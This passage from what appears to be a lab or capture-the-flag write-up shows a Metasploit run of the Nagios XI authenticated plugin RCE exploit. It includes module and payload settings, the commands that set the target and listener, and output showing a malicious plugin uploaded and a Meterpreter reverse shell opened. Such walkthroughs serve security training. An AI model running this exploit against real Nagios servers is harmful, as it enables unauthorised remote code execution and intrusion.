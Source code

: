````commandline
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        [REDACTED]       yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)
````

So I have set what is needed.

````commandline
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD [REDACTED]
PASSWORD => [REDACTED]
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOST 10.10.201.50
RHOST => 10.10.201.50
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST tun0
LHOST => 10.8.208.30
````

Once done, execute `run` (or `exploit`) to launch the beast:

````commandline
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.208.30:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.5.6
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 10.10.201.50
[*] Meterpreter session 1 opened (10.8.208.30:4444 -> 10.10.201.50:42854) at 2021-08-30 23:21:38 +0200
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter >
````
